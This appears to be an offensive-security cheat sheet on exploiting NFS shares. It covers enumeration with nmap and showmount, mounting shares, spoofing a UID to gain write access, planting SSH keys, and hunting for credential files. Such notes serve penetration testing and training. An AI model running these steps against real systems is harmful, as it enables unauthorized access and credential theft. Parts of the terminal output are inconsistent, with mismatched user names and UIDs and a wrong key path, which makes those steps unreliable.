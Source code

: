 # NFS - 2049

## NFS Information

## NFS Enumeration

Enumerate NFS shares with nmap:

```text
nmap -sV -p 111 --script=rpcinfo 10.10.10.10
nmap -p 111 --script nfs* 10.10.10.10
```

Enumerate NFS shares with showmount:

```text
showmount -e $ip
showmount -a $ip
```

## Mounting NFS Shares

Mount with **-o nolock** to disable file locking, which is often needed for older NFS servers:

```text
sudo mount -o nolock 10.10.10.10:/home ~/home/
```

**Alternatively**, mount with version 2:

```text
mount -t nfs -o vers=2 target_ip:/home local_folder/ -o nolock
```

After mounting the filesystem if we don’t have read/write permission, we need to edit the /etc/passwd file and change the UUID:

```text
root@kali:/home/kali/nfs# adduser pwn
Adding user `pwn' ...
Adding new group `marcus' (1001) ...
Adding new user `marcus' (1001) with group `marcus' ...
Creating home directory `/home/pwn' ...
Copying files from `/etc/skel' ...
New password: 
Retype new password: 
passwd: password updated successfully
Changing the user information for pwn
Enter the new value, or press ENTER for the default 
        Full Name []: 
        Room Number []: 
        Work Phone []: 
        Home Phone []: 
        Other []: 
Is the information correct? [Y/n] y
root@kali:/home/kali/nfs# nano /etc/passwd
marcus:x:1016:1016:,,,:/home/pwn:/bin/bash
root@kali:/home/kali/nfs# su pwn
```

Now we can write files to the target fold of the network filesystem:

```text
pwn@kali:/home/kali/nfs/pwn$ ssh-keygen                                                                                                                                                
Generating public/private rsa key pair.                                                                                                                                                                      
Enter file in which to save the key (/home/pwn/.ssh/id_rsa): /home/kali/pwn/.ssh                                                                                                   
Enter passphrase (empty for no passphrase):                                                                                                                                                                  
Enter same passphrase again:                                                                                                                                                                                 
Your identification has been saved in /home/kali/nfs/pwn/.ssh                                                                                                                             
Your public key has been saved in /home/kali/nfs/pwn/.ssh.pub                                                                                                                             
The key fingerprint is:                                                                                                                                                                                      
SHA256:/PH2zrnWxuuT18DFMZvN7WGS7ltUKdz4N+iYjTEZYiQ4 pwn@kali                                                                                                                                               
The key's randomart image is:                                                                                                                                                                                
+---[RSA 3072]----+                                                                                                                                                                                          
|         . .     |                                                                                                                                                                                          
|      E . o      |                                                                                                                                                                                          
|       o o       |                                                                                                                                                                                          
|       .o .     o|                                                                                                                                                                                          
|        S..    *o|                                                                                                                                                                                          
|         .oo. oo%|
|         +. o+ &X|
|          o.+o=O@|
|           . BX*B|
+----[SHA256]-----+
```

Alternatively, we can try to find sensitive files like SSH keys or anything related to credentials:

```text
ls -la
total 24
drwxr-xr-x 2 1014 1014 4096 Jun 10 09:16 .
drwxr-xr-x 7 root root 4096 Sep 17 2015 ..
-rwx------ 1 1014 1014
48 Jun 10 09:16 credentials.txt
```

We could also find mount points on the target where SUID programs and scripts can be run from: 

```text
mount | grep 'nosuid\|noexec'
```




